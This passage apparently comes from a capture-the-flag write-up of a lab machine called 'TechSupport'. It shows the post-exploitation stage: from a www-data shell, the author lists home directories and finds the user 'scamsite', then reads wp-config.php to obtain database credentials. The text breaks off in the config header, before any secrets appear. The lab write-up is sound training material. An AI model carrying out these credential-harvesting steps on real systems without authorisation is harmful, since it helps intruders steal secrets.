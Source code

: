 ## Post-Exploitation

### Exploring the System
Navigating directories and identifying users.

**Commands:**
```bash
cd ..
cd /home
ls -la
cd scamsite
ls -la
```

**Output:**
```
www-data@TechSupport:/var/www/html/subrion/uploads$ cd ..
www-data@TechSupport:/var/www/html/subrion$ cd /home
www-data@TechSupport:/home$ ls -la
total 12
drwxr-xr-x  3 root     root     4096 May 28  2021 .
drwxr-xr-x 23 root     root     4096 May 28  2021 ..
drwxr-xr-x  4 scamsite scamsite 4096 May 29  2021 scamsite
www-data@TechSupport:/home$ cd scamsite
www-data@TechSupport:/home/scamsite$ ls -la
total 32
drwxr-xr-x 4 scamsite scamsite 4096 May 29  2021 .
drwxr-xr-x 3 root     root     4096 May 28  2021 ..
-rw------- 1 scamsite scamsite  151 May 28  2021 .bash_history
-rw-r--r-- 1 scamsite scamsite  220 May 28  2021 .bash_logout
-rw-r--r-- 1 scamsite scamsite 3771 May 28  2021 .bashrc
drwx------ 2 scamsite scamsite 4096 May 28  2021 .cache
-rw-r--r-- 1 scamsite scamsite  655 May 28  2021 .profile
-rw-r--r-- 1 scamsite scamsite    0 May 28  2021 .sudo_as_admin_successful
drwxr-xr-x 2 root     root     4096 May 29  2021 websvr
```

**Findings:**
- User: scamsite.

### Accessing WordPress Configuration
Reading wp-config.php for database credentials.

**Commands:**
```bash
cd /var/www/html/wordpress
ls
cat wp-config.php
```

**Output (wp-config.php):**
```
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
```